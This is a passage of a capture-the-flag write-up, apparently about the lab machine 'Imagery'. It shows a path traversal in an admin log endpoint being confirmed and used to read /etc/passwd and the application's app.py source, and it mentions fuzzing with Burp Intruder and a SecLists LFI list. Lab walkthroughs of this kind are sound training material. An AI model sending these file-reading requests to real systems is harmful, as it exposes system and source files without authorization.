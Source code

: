 <img width="863" height="531" alt="image 7" src="https://github.com/user-attachments/assets/9852bb64-6840-4973-9446-6490782c9faf" />

### Path Traversal

But from testuser it gave us and error with requests `.../get_system_log?log_identifier=testuser@imagery.htb.log` 

We’ll do a sanity check first

```bash
http://imagery.htb:8000/admin/get_system_log?log_identifier=/etc/passwd
```

<img width="548" height="104" alt="image 8" src="https://github.com/user-attachments/assets/df6b4a43-8d4b-412e-a2df-38c4c9a93654" />

<img width="991" height="804" alt="image 9" src="https://github.com/user-attachments/assets/87a6597f-fd7b-4991-9fb9-c599f4078a42" />

Requesting `.../get_system_log?log_identifier=/etc/passwd` returned system file contents, proving a [Path Traversal](https://www.invicti.com/learn/local-file-inclusion-lfi/) vulnerability.

As a first step I fuzzed the target with **Burp Intruder** and the LFI list from [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) to enumerate likely absolute paths. This allowed me to identify readable files and confirm Local File Inclusion candidates before attempting further validation and exploitation.

<img width="1452" height="729" alt="image 10" src="https://github.com/user-attachments/assets/ffe8b885-59f9-491a-bded-8a8f8150b856" />

As you can see, we now can fully understand the file structure for this web app `/home/web/web/system_logs/` i also did some research meanwhile let the burp running to learn more on flask application file structure 

<img width="1017" height="798" alt="image 11" src="https://github.com/user-attachments/assets/dab04c38-a185-449a-909c-d1259527b29f" />

```
my_flask_app/
├── app.py
├── config.py
├── requirements.txt
├── run.py
├── instance/
│   └── config.py
│── migrations/
│...
```

That’s mean, we can try with `/home/web/web/app.py` first. 

```
http://imagery.htb:8000/admin/get_system_log?log_identifier=/home/web/web/app.py
```

<img width="550" height="115" alt="image 12" src="https://github.com/user-attachments/assets/de7d4eab-4d34-4032-a0df-d4805e328618" />

```python
from flask import Flask, render_template
import os
import sys
from datetime import datetime
from config import *
from utils import _load_data, _save_data
from utils import *
from api_auth import bp_auth
from api_upload import bp_upload
from api_manage import bp_manage
from api_edit import bp_edit
from api_admin import bp_admin
from api_misc import bp_misc

```
